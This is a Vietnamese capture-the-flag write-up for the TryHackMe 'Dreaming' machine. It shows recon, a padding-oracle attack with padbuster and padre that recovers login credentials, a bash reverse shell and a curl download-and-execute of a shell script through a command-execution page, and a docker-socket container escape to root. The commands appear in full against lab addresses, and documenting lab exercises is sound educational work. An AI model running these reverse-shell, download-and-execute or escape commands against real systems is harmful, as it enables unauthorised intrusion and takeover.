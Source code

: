 # [THM] Dreaming write-up

- IP: 10.10.11.84

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.11.84

<p align="center">
    <img src="./img/nmap-scan.png" alt="Nmap scan">
</p>

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 8080 chạy dịch vụ HTTP 

Khi cập với port 8080 ta được web có giao diện như đưới

![Web interface](./img/web-interface.png)

Sau khi khám phá thì phát hiện ra `/login.html` và `/debug.html`

![Login interface](./img/login-interface.png)
![Debug interface](./img/debug-interface.png)

Ngoài 2 tệp bên trên ra ta còn phát hiện `/exec.html` khi scan thư mục ẩn bằng ffuf nhưng rta không có quyền truy cập, tôi nghĩ rằng chúng ta phải tìm cách đăng nhập để có thể truy cập được tệp đó

![ffuf scan](./img/ffuf-scan.png)

Quay trở lại với trang login và debug sau khi kiểm tra thì thấy source của `debug.html` có get 1 api lạ, để gửi mã gì đó tới `/api/debug` và lấy mã thông báo xác thực 

## Exploit

![Get API](./img/get-api.png)

Phân tích và thử truy cập thì ta nhận được kết quả như hình bên dưới

![Access API](./img/access-api.png)

Sau khi thử thêm bất kì ký tự gì vào url thì đều bị lỗi, kết hợp với thông báo ở `/debug.html` ta có thể tấn công bằng `Padding Oracle` (một số keyword chúng ta có thể search đó là `AES/CBC/PKCS`, `Oracle`, `Padding error`)

Cùng làm rõ lỗ hổng này **Oracle Padding** (hay còn gọi là **Oracle Padding Attack** hoặc **Padding Oracle Attack**) là một kiểu tấn công mật mã thuộc nhóm **side-channel attacks** nhằm khai thác cách hệ thống phản hồi lỗi khi giải mã dữ liệu được padding sai, thường trong các thuật toán mã hóa **block cipher** như **AES trong chế độ CBC (Cipher Block Chaining)**

### Chế độ mã hóa CBC
 **Mã hóa**

- Khối đầu tiên: Plaintext được XOR với Initialization Vector (IV), sau đó được mã hóa bằng khóa bí mật
- Các khối tiếp theo: Mỗi khối plaintext được XOR với khối ciphertext trước đó, sau đó được mã hóa

![CBC encryption](./img/cbc-encryption.png)

 **Giải mã**

- Giải mã khối ciphertext: Mỗi khối ciphertext được giải mã bằng khóa bí mật
- XOR với khối trước đó: Kết quả giải mã được XOR với khối ciphertext trước đó (hoặc IV đối với khối đầu tiên) để thu được plaintext

![CBC decryption](./img/cbc-decryption.png)

**Padding là gì**

Khi plaintext không đủ độ dài để tạo thành một khối đầy đủ, hệ thống sẽ thêm **padding** để lấp đầy khối.

**Dấu hiệu**

- Lỗi trả về đã cho ta biết hệ thống cố thể bị khai thác bởi lỗ hổng này, cụ thể với hệ thống đang khai thác

**Một số công cụ kiểm thử, khai thác**

- `padre`: https://github.com/glebarez/padre
- `padbuster`: https://github.com/AonCyberLabs/PadBuster

Ta sẽ đi vào khai thác, tôi sẽ sử dụng `padbuster`. Đầu tiên cần install công cụ trên máy attacker
```bash
sudo apt install padbuster
```
Sau đó chạy câu lệnh sau để thực hiện khai thác
```bash
padbuster http://10.10.11.84:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 2 -error "Decryption error"
```
Câu lệnh trên bao gồm

- `http://10.10.11.84:8080/api/debug/`: URL
- `39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4`: ciphertext/token
- `16`: Block size  --> Vì chúng ta biết AES đang được sử dụng, kích thước khối hợp lệ duy nhất cho AES là 128 Bit hoặc 16 Byte
- `encoding`: 2 là dạng uppercase hex
- `error`: Thông báo lỗi mà ứng dụng trả về khi xảy ra lỗi padding

Sau khi sử dụng công cụ trên thì gặp chút vấn đề và không thể tìm ra được plaintext chúng ta muốn
![Padbuster](./img/padbuster.png)

Vậy ta sẽ sử dụng công cụ còn lại đó là `padre` với câu lệnh 
```bash
padre -err "Decryption error" -e lhex -u 'http://10.10.11.84:8080/api/debug/$' '39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'
```
Sau khi sử dụng tool này đã lấy được tài khoản và mật khẩu của stefan: `stefan1197:ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599` các chuỗi ký tự `\x0f` đằng sau là padding

![Stefan Account](./img/stefan-account.png)

Do một số trục trặc từ giờ trở đi ip sẽ là 
- **IP: 10.10.79.153**

## First flag

Sau khi đăng nhập bằng thông tin ở trên đã truy cập được vào `/exec.html` và đã lấy được flag đầu tiên

![First flag](./img/first-flag.png)

## Second flag

Sau khi lấy được flag và nhận thấy page này có thể nhập được command và thực thi, nếu là câu lệnh hợp lệ sẽ return OK 

<p align="center">
    <img src="./img/test-command.png" alt="Test command">
</p>

Ta sẽ nghĩ ngay tới reverse shell, tạo reverse shell bash `bash -i >& /dev/tcp/10.21.113.26/1234 0>&1` và **netcat listener** trên máy attacker để lắng nghe. Nhưng khi nhập trực tiếp vào ô input thì response trả về chỉ là OK và không thể truy cập được shell.

Nghĩ tới phương án tiếp theo có thể upload shell và thực thi đó là tạo server trên máy attacker sau đó download và thực thi trên máy nạn nhân. Tạo file `shell.sh` với nội dung reverse shell trên và `python3 -m http.server 2222`. Sau đó chạy `curl http://10.21.113.26:2222/shell.sh -o /tmp/shell.sh` trên ô input để download và tiếp tục chạy lần lượt các câu lệnh `chmod x+ /tmp/shell.sh` để cấp quyền. `bash /tmp/shell.sh` để thực thi. Tất cả các câu lệnh trên đều trả về status OK

<p align="center">
    <img src="./img/access-shell.png" alt="Access shell">
</p>

Khi đã truy cập được shell thì nhận thấy có vẻ như đang ở trong docker container vì thấy file `.dockerenv`. Sau một hồi tìm kiếm đã tìm thấy flag thứ 2 trong `env`

<p align="center">
    <img src="./img/second-flag.png" alt="Second flag">
</p>

## Final flag
Sau khi tìm kiếm một hồi và không thu thập được thông tin gì thêm thì tôi nghĩ cần phải thoát khỏi môi trường `docker`.

<p align="center">
    <img src="./img/docker-sock.png" alt="Docker sock">
</p>

Kiểm tra thì thấy `/var/run/docker.soc` có quyền đọc ghi. Mà docker socket được gắn bên trong container nên có thể tương tác với docker engine và thoát khỏi conainer bằng cách sử dụng nó

<p align="center">
    <img src="./img/docker-compose.png" alt="Docker compose">
</p>

Kiểm tra docker image sau đó chạy lệnh 
```bash
docker run -v /:/host --rm -it openjdk:11 bash
```
- `docker run`: để chạy 1 container từ 1 docker image
- `-v /:/host`: sử dụng đẻ mount thư mục từ máy chủ vào container, `/` là thư mục **root** của máy chủ, `/host` là thư mục trong container mà thư mục root của máy chủ được mount vào
- `--rm`: Docker sẽ tự động xóa container sau khi nó dừng lại
- `-it`: cho phép truy cập vào shell của container và làm việc trực tiếp trong container
- `openjdk:11`: tên và tag của docker image mà sử dụng để tạo container
- `bash`: Sau khi khởi tạo container tạo 1 shell bash

<p align="center">
    <img src="./img/bash-shell.png" alt="Shell">
</p>

Đã vào được root shell, thực hiện tìm kiếm flag với câu lệnh `find / -name "flag.txt" 2>/dev/null`

<p align="center">
    <img src="./img/final-flag.png" alt="Final flag">
</p>

## DONE